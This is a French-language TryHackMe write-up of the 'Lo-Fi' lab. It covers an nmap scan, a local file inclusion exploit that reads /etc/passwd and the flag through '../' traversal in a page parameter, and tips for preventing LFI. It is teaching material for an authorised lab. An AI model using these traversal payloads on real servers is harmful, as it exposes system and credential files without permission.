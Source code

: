# 📌 TryHackMe - Lo-Fi Write-Up (FR)  

## 🛠 Informations

- **Nom de la machine** : Lo-Fi
- **Plateforme** : TryHackMe
- **Difficulté** : Facile
- **Type** : Web Exploitation - LFI (Local File Inclusion)

---

## 🏁 Objectifs

L'objectif de cette machine est d'exploiter une vulnérabilité **LFI (Local File Inclusion)** pour récupérer des fichiers sensibles sur le serveur et capturer le flag.

---

## 🔍 1. Scan et Reconnaissance

On commence par un scan des ports pour voir quels services sont accessibles.

### **Scan Nmap**

```bash
nmap -sC -sV -T4 -p- <IP_de_la_machine>
```

🔎 **Résultat :** Le site web est accessible via HTTP sur le port **80**.

---

## 🌐 2. Analyse du site web

Nous visitons la page principale et analysons l'URL. Nous remarquons que chaque page utilise un paramètre `page`, par exemple :

```
http://lo-fi.thm/?page=relax.php
```

Cela suggère que le site **inclut dynamiquement des fichiers PHP**.

---

## 💥 3. Exploitation - Local File Inclusion (LFI)

Nous testons si la LFI est possible en tentant d'inclure le fichier `/etc/passwd`.

### **Test LFI**

Nous modifions l'URL comme suit :

```
http://lo-fi.thm/?page=../../../../etc/passwd
```

🔎 **Résultat :** Le fichier `/etc/passwd` est affiché, confirmant la vulnérabilité !

Extrait du fichier :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
...
```

---

## 🏆 4. Récupération du Flag

Maintenant que nous avons confirmé la LFI, nous recherchons directement le fichier `flag.txt` :

```
http://lo-fi.thm/?page=../../../../flag.txt
```

🎉 **Flag récupéré avec succès !**

---

## 🔐 5. Protection contre la LFI

Pour éviter ce type de vulnérabilité, voici quelques bonnes pratiques :

- **Utiliser des chemins absolus** et éviter d'inclure des fichiers basés sur l'entrée utilisateur.
- **Restreindre l'accès aux fichiers sensibles** (ex: via des permissions ou un `.htaccess`).
- **Filtrer les entrées** pour empêcher les séquences `../` qui permettent de remonter dans les dossiers.
- **Désactiver `allow_url_include` et `allow_url_fopen`** dans `php.ini`.

---

## 🎯 Conclusion

La machine "Lo-Fi" illustre bien la dangerosité des failles LFI et leur exploitation. En environnement réel, cette vulnérabilité peut mener à l'exposition de données critiques et même à une exécution de code si combinée à d'autres techniques comme le **Log Poisoning**.

---

✅ **TryHackMe - Lo-Fi complété avec succès !** 🚀

